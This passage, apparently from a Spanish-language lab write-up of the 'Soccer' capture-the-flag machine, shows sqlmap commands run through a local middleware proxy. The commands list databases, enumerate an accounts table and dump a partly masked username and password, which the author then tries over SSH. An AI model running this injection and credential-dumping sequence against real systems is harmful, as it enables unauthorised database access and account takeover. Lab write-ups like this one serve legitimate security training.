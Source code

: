 ```bash 
[+] Iniciando Servidor MiddleWare
[+] Enviando payloads al localhost
```
Ahora, con sqlmap, como lo habíamos configurado en el exploit de Python, apuntamos a nuestro localhost e intentamos listar las bases de datos:
```bash 
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -dbs
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```
Tenemos la tabla "accounts", vamos a enumerarla:
```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -columns
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```

Nos interesa las columnas "username" y "password".
```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOfthe********* |
+----------+----------------------+
```
Anteriormente habíamos visto en el escaneo el puerto 22 para ssh, vamos a intentar iniciar sesión con estas credenciales.
```text
❯ ssh player@10.10.11.194
player@10.10.11.194's password: 
```
![img](/assets/img/post/soccer/user.png)
